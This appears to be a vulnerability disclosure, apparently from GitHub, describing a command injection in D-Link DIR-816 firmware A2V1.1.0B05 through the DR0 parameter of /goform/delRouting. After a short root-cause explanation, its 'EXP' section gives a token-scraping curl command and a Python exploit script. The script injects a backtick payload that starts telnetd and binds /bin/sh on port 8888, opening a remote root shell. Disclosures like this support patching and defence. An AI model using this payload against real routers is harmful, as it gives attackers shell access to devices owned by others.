


## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/delRouting` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.



### Vulnerability details

Vulnerability occurs in `/goform/delRouting`. Attackers can control `Var` by setting the `DR0`. The program then splits `Var` into three parts, `v11`, `v12`, and `v13`, and passes them to function `sub_428FF0`.


In the function `sub_428FF0`, the three parameters are concatenated into the command `route del`, and finally called by `doSystem`.



Anyway, system command was called, and its parameter `v9` was passed by `Var`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DR0`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/delRouting'

data = {
    'tokenid': tokenid,
    'DR0': a`telnetd -l /bin/sh -p 8888 -b 0.0.0.0` b c
}

r = requests.post(url, data)
```

